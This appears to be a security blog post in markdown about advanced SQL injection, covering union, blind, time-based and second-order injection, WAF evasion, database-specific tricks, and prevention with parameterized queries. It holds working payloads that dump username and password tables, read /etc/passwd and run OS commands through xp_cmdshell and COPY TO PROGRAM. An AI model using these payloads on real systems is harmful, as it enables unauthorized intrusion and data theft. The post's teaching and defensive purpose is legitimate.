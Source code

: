 ```yaml
---
title: "Advanced SQL Injection Techniques"
date: "2024-01-18"
category: "Web Security"
tags: ["web-security"]
excerpt: "Explore advanced SQL injection techniques including blind SQLi, time-based attacks, and modern bypass methods for web application security testing."
---
```


# Advanced SQL Injection Techniques

SQL injection remains one of the most critical web application vulnerabilities. While basic union-based attacks are well-documented, advanced techniques require deeper understanding of database internals and application logic.

## Types of SQL Injection

### Union-Based Injection
The classic approach using UNION statements to extract data:

```sql
' UNION SELECT username, password FROM users--
```

### Blind SQL Injection
When no direct output is visible, we use conditional responses:

```sql
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a'--
```

### Time-Based Blind Injection
Using database sleep functions to infer data:

```sql
'; IF (1=1) WAITFOR DELAY '00:00:05'--
```

## Advanced Bypass Techniques

### WAF Evasion
Modern applications use Web Application Firewalls (WAFs) that can be bypassed:

- **Case variation**: `UnIoN SeLeCt`
- **Comment insertion**: `UN/**/ION SE/**/LECT`
- **Encoding**: URL, hex, or unicode encoding

### Second-Order Injection
Payload stored in database and executed later:

```sql
-- First request stores payload
INSERT INTO users (name) VALUES ('admin''--')

-- Second request triggers injection
SELECT * FROM logs WHERE user='admin'--'
```

## Database-Specific Techniques

### MySQL
```sql
-- Information gathering
SELECT @@version, @@datadir, USER()

-- File operations
SELECT LOAD_FILE('/etc/passwd')
```

### PostgreSQL
```sql
-- Command execution
COPY (SELECT '') TO PROGRAM 'id'

-- Large object abuse
SELECT lo_import('/etc/passwd', 1337)
```

### MSSQL
```sql
-- Extended stored procedures
EXEC xp_cmdshell 'whoami'

-- Linked servers
SELECT * FROM OPENROWSET('SQLOLEDB','server';'sa';'password','SELECT @@version')
```

## Automated Tools

Popular SQL injection tools:
- **SQLMap**: Comprehensive automated testing
- **Burp Suite**: Manual testing with extensions
- **NoSQLMap**: For NoSQL databases

## Prevention Strategies

### Parameterized Queries
```python
# Secure approach
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))

# Vulnerable approach
cursor.execute(f"SELECT * FROM users WHERE id = {user_id}")
```

### Input Validation
- Whitelist allowed characters
- Validate data types and ranges
- Implement proper error handling

### Least Privilege
- Use dedicated database users
- Limit database permissions
- Disable unnecessary features

## Conclusion

SQL injection attacks continue to evolve, requiring security professionals to stay updated with the latest techniques and countermeasures. Always test in authorized environments only.